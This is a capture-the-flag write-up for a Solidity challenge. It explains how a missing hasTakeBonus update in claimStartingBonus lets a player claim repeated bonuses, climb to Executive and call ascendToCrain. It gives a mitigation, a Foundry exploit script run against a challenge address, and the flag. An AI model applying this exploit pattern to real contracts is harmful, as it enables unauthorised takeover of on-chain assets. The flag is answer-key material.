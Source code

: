 **Goal**
Make the `crain` variable of `Crain` contract to `Setup` contracts address.

**Attack**
1. The `crain` variable is set inside `ascendToCrain()` function in `Crain` Contract.
2. The `ascendToCrain()` function is only callable by `CrainExecutive` Contract.
3. In `CrainExecutive` contract external calls only done via `transfer` function.
4. To call `transfer()` function we need to be executive.
5. To become Executive we need to first be Employee, then Manager, then Executive 
6. The bug is inside `claimStartingBonus` function which is not updated to `hasTakeBonus`.
7. So, we can call `claimStartingBonus()` function after calling `becomeEmployee()` function.
8. After calling `claimStartingBonus()` function 5 times we can able to become Executive.
9. By calling, `becomeManager()`, then `becomeExecutive()`.

**Mitigation**

Update the `hasTakeBonus` Mapping inside `claimStartingBonus()` function.

**Solve.s.sol**

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "../src/Setup.sol";
import "forge-std/Script.sol";

contract Solve is Script {
    Setup chall = Setup(0xd61a5319c5033709b9d4D541C545bf5dD2FFa649);
    CrainExecutive cexe;
    Crain crain;

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        cexe = chall.cexe();
        crain = chall.crain();
        cexe.becomeEmployee();
        cexe.claimStartingBonus();
        cexe.claimStartingBonus();
        cexe.claimStartingBonus();
        cexe.claimStartingBonus();
        cexe.claimStartingBonus();
        cexe.becomeManager();
        cexe.becomeExecutive();
        bytes memory message = abi.encodeWithSignature("ascendToCrain(address)", address(0xdeadbeef));
        cexe.transfer(address(crain), 0, message);
        console.log("Solved#",chall.isSolved());
    }
}
```

**Flag#** TCP1P{Imagine_getting_kicked_out_like_that_by_s0m3_3Xecu7iVE}

----
